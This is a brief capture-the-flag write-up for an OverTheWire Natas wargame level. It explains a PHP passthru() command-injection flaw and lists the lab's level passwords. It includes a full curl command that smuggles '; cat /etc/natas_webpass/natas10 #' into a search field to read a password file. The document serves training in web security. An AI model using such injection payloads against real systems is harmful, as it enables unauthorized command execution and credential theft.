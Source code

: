 
# Flag
natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

This one is tricky, though the vulnerability is pretty easy to spot.
The php code takes in the input and uses passthru() to execute shell commands.

If we intercept that with a semicolon ";", we can execute our command after that:

curl --user natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl "http://natas9.natas.labs.overthewire.org/" -F needle="something; cat /etc/natas_webpass/natas10 #" -F submit=Search